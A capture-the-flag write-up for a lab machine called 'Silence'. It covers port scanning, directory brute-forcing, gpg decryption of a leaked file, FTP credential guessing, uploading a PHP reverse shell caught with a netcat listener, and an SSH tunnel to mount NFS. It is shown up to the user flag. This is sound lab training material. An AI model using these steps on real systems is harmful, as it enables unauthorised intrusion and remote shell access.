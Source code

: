# CTF: Silence

![Difficulty: Hard](https://img.shields.io/badge/difficulty-hard-%23ff0000)
![Contest Date: 2024-05-14](https://img.shields.io/badge/contest%20date-2024--05--14-informational)
![Category: FTP, Hash, Crontab, SSH Key](https://img.shields.io/badge/category-ftp,hash,crontab,sshkey-%237159c1)
![By: Alexandre & Eloi](https://img.shields.io/badge/by-Alexandre%20%26%20Eloi-%23f9a03c)  
![alt text](img/silence.png)
## Description

> What does it takes to climb the world’s first 9c?

## Write-up

WebFlag: web.txt
UserFlag: user.txt  
RootFlag: root.txt

## Flag Solutions

### Web Flag

First thing to do is to check open ports on the target machine. We can do this by running a port scan using `nmap`.

```bash
nmap -sSV $IP
```

Results : 
```bash
PORT   STATE SERVICE VERSION

21/tcp open  ftp     vsftpd 3.0.3

22/tcp open  ssh     OpenSSH 8.0 (protocol 2.0)

80/tcp open  http    Apache httpd 2.4.37 ((centos))

MAC Address: 02:85:B5:9A:69:1F (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have three open ports, 21, 22 and 80. Let's check the web server on port 80.

```bash
http://$IP
```

We can do a `gobuster` scan to find hidden directories.

```bash
gobuster dir --url http://<IP> -w Tools/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,htm,js
```

Results : 
```bash
/hidden (Status: 301)
```

We have to go to the hidden directory.

```bash
http://$IP/hidden
```

We find a zip file. We can download it and extract it.

```bash
wget http://<IP>/hidden/stats.zip
unzip stats.zip
inflating: ClimbersStats.xlsx.gpg  
inflating: .hidden-key  
```

We have a `.hidden-key` file. We can decrypt it using `gpg`.

```bash
gpg --import .hidden-key
gpg --output ClimbersStats.xlsx --decrypt ClimbersStats.xlsx.gpg
```

We have a file `ClimbersStats.xlsx`. We can go online and open the file.

We have a list of climbers with their names, the route they climbed, the date they climbed it, and the time they took to climb it.

We have to try all username and password combinations to find the right one for the ftp server.
    
```bash
ftp $IP
ls -al
```

We found files of the website. We can upload a reverse shell to the server.
https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

```bash
put reverse.php
```

We can connect to the reverse shell.

```bash
nc -lvnp 4444
```

We can connect to the reverse shell.

```bash
http://$IP/reverse.php
```

We can try to find the web flag.

```bash
find / -name web.txt 2>/dev/null
```

We have just to cat the file.

```bash
cat <PATH>/web.txt
```

**Well done! You found the web flag!**

### User Flag

We have to create an SSH tunnel to connect to the nfs server.

Login with the username and password we found in the `ClimbersStats.xlsx` file.
```bash
ssh -L 2001:127.0.0.1:2049 <USERNAME>@<IP>
```

On other terminal, we can mount the nfs server.

```
mkdir nfs && mount -t nfs -o rw 127.0.0.1: nfs
```

And we have to find the user flag.

**Well done! You found the user flag!**